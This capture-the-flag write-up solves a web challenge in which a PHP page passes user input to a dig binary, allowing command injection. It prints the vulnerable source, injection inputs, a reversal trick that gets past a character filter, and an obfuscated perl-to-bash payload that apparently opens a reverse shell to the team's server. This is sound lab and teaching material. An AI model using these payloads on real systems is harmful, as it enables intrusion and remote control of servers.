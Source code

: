 ## dig host 3 (bonus)
The easy solution to this one is to simply run ``'`{cat,bonus_flag}`'``. However we did not find the easy solution. Here's how you take the long way around...

The challenge offers you a webpage where you can run the program DiG and query some dns record.

![no alt](images/dighost1.png)

The previous 3 challenges have been about command injection, so we tried various command injection. By sending `;ls` we can see which files exist in the directory, we can read files by running `;cat<flag`.

![no alt](images/dighost2.png)

This is how we solved dig host 3, however the bonus_flag file returns nothing when we try to cat it the same way. We can also cat `dig_host_level3.php`. 

```php
<?php
        require_once("../include/smarty.php");


        $host = "";
    $output = "";

        if(isset($_POST) && is_array($_POST) && array_key_exists("host", $_POST)) {
        $host = preg_replace("/[\s\$-]+/", "", $_POST["host"]);

        exec("/dig ".$host, $output);
    }

        $smarty->assign(array(
                "PHP_SELF"      => $_SERVER["PHP_SELF"],
                "host"          => $host,
        "output"    => implode("\n", $output)
        ));

        $smarty->display("dig_host_level3.tpl");
?>

```

Not being able to use whitespace `$` or `-` was pretty limiting, mostly the lack of whitespace would make it impossible to run commands with arguments (we believed). But we did get 1 space for free, the space between `/dig` and whatever we typed in, so we thought about ways to abuse it. 

![no alt](images/dighost3.png)

We noticed that dig echos the input you give it at the end of the first line. If we give a reversed payload it will echo it to us, we can then undo the reverse on our payload by using `rev`. Using this method we can inject almost arbitrary strings (specifically `[^\s$-]+`) into the beginning of our line. We ran `ls -al /usr/bin` on the machine from dig host 1 to see which programs it had that might grant us RCE from this. We tried `python3`, `node`  and `perl`.

Something like 
```python
print(bytes([101,118,105,108,32,115,116,117,102,102]).decode()) >><< utnubU-1.61.9 GiD >><< ;
dmc+ :snoitpo labolg ;;
:rewsna toG ;;
... more garbage here ...
```
would let us generate strings that contain any character, but none of them would accept incomplete multiline comments like `"""` in python `/*` in javascript. Single line comments wouldn't help since it parsed the entire file at once. After many hours of trying things that didn't work we tried the following payload.

```
ffuts_live_od|rev>/tmp/bleh;echo`cat</tmp/bleh`
```
This payload echos `ffuts_live_od` using `dig`, then reverse it so that `do_evil_stuff` is the first text on the first line, then writes it to `/tmp/bleh` and then echos `cat</tmp/bleh`, which collapses it into one line. (The backticks are doing the work here)

![no alt](images/dighost4.png)

RCE baby!!!

I wrote a small python script to help generate payloads and after 3 hours of sleep I made this monster. (I'm skipping over the string escaping because it is nuts and boring)
```bash
\\\#\\\)\\\"13x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"03x\\\\\\\".\\\"02x\\\\\\\".\\\"73x\\\\\\\".\\\"33x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"83x\\\\\\\".\\\"33x\\\\\\\".\\\"13x\\\\\\\".\\\"e2x\\\\\\\".\\\"33x\\\\\\\".\\\"73x\\\\\\\".\\\"e2x\\\\\\\".\\\"23x\\\\\\\".\\\"23x\\\\\\\".\\\"e2x\\\\\\\".\\\"53x\\\\\\\".\\\"63x\\\\\\\".\\\"13x\\\\\\\".\\\"f2x\\\\\\\".\\\"07x\\\\\\\".\\\"36x\\\\\\\".\\\"47x\\\\\\\".\\\"f2x\\\\\\\".\\\"67x\\\\\\\".\\\"56x\\\\\\\".\\\"46x\\\\\\\".\\\"f2x\\\\\\\".\\\"02x\\\\\\\".\\\"62x\\\\\\\".\\\"e3x\\\\\\\".\\\"02x\\\\\\\".\\\"96x\\\\\\\".\\\"d2x\\\\\\\".\\\"02x\\\\\\\".\\\"86x\\\\\\\".\\\"37x\\\\\\\"\\\(tnirp|rev>/tmp/bleh;echo`cat</tmp/bleh`>/tmp/gamer;perl</tmp/gamer|bash
```
It makes a reverse shell to DTUHAX's server. The challenge is not done.

![no alt](images/dighost5.png)

We still can't read bonus_flag. Turns out you have to be user 20000, (aka root? I think) and we are not user 20000. Luckily `/dig` is a setuid binary with the right user, and DiG has an option to read domains to query from a file, and it echos those domains!

![command on challenge server](images/dighost6.png)

huh?

![command locally](images/dighost7.png)

works fine locally?

We spent a long time trying to figure this out, eventually we used the rev shell to copy their version of dig and reversed it. The binary checks that `argc == 2` and that some illegal characters aren't in the first argument, then it just runs it in bash.

![no alt](images/dighost8.png)

Turns out they have 2 dig binaries (and a symlink)
```
$ find / -name dig 2>/dev/null
/usr/bin/dig
/web-apps/php/html/dig
/dig
```
They don't ban `-` in the fake `dig` binary so running `/dig -fbonus_flag` works fine.

```
$ /dig -fbonus_flag
; <<>> DiG 9.16.1-Ubuntu <<>> flag{wait, i thought this was web!}
```
